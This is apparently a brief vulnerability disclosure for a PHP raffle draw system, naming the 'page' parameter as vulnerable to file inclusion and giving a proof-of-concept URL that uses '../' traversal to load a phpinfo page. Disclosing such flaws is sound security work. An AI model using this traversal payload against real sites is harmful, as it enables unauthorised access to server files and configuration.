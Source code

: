 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15951/raffle-draw-system-using-php-and-javascript-free-source-code.html

Vulnerability trigger parameter: $page

The process of vulnerability discovery is as follows：

![1674055132712](https://user-images.githubusercontent.com/30823782/213210410-fae4892e-8a9e-4673-aa09-3a6a2251967a.jpg)

http://192.168.249.88/php-js-raffle-draw/index.php?page=../dashboard/phpinfo

![image](https://user-images.githubusercontent.com/30823782/213210535-76f45f3f-1347-4b2f-b7a2-b6153b78fa56.png)
